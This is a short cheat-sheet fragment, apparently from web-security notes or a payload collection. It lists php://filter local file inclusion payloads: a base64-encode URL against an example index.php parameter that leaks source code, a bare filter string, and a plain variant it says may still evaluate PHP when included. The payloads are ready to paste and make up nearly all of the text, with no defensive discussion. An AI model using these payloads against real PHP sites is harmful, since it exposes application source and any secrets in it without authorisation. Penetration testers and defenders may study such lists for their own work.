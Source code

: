## include PHP filter URL
`php://filter` case insensitive

### base 64 encode
```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
php://filter/convert.base64-encode/resource=
```

### no encoding
also works with no convert encoding part - may still evaluate php code if used in `include`
```
php://filter/resource=
```

